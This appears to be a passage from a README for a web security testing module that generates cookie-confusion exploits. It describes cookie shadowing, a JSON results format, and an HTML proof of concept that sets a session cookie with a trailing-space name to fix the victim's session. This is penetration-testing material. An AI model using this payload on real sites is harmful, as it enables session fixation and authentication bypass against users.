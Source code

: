 ### Shadow Cookie

Exploits the ability to override HttpOnly cookies:

- Sets a parallel cookie with the same name but different attributes
- Bypasses HttpOnly or Secure attributes in specific contexts
- Demonstrates cookie shadowing vulnerabilities

## Results Format

The module generates JSON results with the following structure:

```json
{
  "target": "https://example.com",
  "timestamp": 1714577890,
  "exploits": {
    "session_fixation": {
      "name": "Session Fixation via Trailing-Space Collision",
      "status": "generated",
      "description": "...",
      "impact": "Session fixation, authentication bypass",
      "cookie_name": "session",
      "variations": [...],
      "test_results": [...],
      "steps": [...],
      "poc_html": "..."
    },
    ...
  }
}
```

## HTML Proof of Concepts

For each generated exploit, the module creates an HTML proof-of-concept file:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Session Fixation PoC</title>
</head>
<body>
    <h1>Cookie Confusion: Session Fixation via Trailing Space</h1>
    <script>
    // Set the malicious cookie with trailing space
    document.cookie = "session =attacker_session; path=/";
    
    // Check what cookies are set
    console.log("Cookies:", document.cookie);
    </script>
    
    <div id="cookies"></div>
    
    <script>
    // Display the cookies
    document.getElementById('cookies').innerText = "Current cookies: " + document.cookie;
    </script>
</body>
</html>
```
